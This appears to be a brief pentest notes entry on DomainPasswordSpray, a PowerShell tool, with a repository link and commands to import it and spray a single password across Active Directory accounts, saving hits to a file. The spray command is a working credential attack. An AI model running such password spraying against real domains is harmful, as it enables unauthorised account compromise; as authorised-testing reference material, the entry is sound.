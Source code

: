 ```yaml
---
tags:
  - tool
---
```

# DomainPasswordSpray

See: https://github.com/dafthack/DomainPasswordSpray

## Capabilities

```powershell
# Import
Import-Module .\DomainPasswordSpray.ps1

# Domain password spray
Invoke-DomainPasswordSpray -Password $PASSWD -OutFile spray_success -ErrorAction SilentlyContinue
```
